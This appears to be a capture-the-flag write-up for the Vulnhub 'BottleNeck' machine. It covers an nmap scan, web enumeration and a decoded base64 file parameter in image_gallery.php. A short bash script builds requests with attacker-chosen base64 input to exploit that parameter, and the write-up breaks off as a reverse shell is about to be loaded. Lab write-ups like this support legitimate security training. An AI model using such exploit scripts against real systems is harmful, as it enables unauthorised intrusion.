 # BottleNeck

Lets find out the IP of this Machine First ➡️

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled.png)

```jsx
IP : 10.10.2.31
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Bottleneck]
└─$ **sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.31**   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 09:27 IST
Nmap scan report for 10.0.2.31
Host is up (0.0011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bee0d57576ead4f39177f947207dbfa4 (RSA)
|   256 7a3490c059d1db63bd4eca5e6feee72d (ECDSA)
|_  256 c9b966ce28adb7b3d9bbed220de445db (ED25519)
80/tcp open  http    nginx
|_http-title: BOTTLENECK
MAC Address: 08:00:27:62:05:74 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled%203.png)

Now When I visited the page I encountered with this link ⤵️

   [http://10.0.2.31/image_gallery.php?t=1682050025&f=Ym90dGxlbmVja19kb250YmUucG5n](http://10.0.2.31/image_gallery.php?t=1682050025&f=Ym90dGxlbmVja19kb250YmUucG5n)

Now this link loads 2 things >>

1. t = `1682050025` > This is date in seconds .
2. f = `Ym90dGxlbmVja19kb250YmUucG5n` > This data is base64 encoded when we decode it we get `bottleneck_dontbe.png`

So here we have to create a automation script which loads the date in seconds and also takes an input for uploading the payload .

```bash
#!/bin/bash
t=$(date +%s)
f=$(echo -e -n $1 |base64 -w 0)
url="http://10.0.2.31/image_gallery.php?t=$t&f=$f"
echo $url
echo $(curl -s -vv "$url")
```

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled%204.png)

Lets run this >>

Now From the web Browser we get this >>

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled%205.png)

Now Lets try to load the reverse shell script from outside >>

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled%206.png)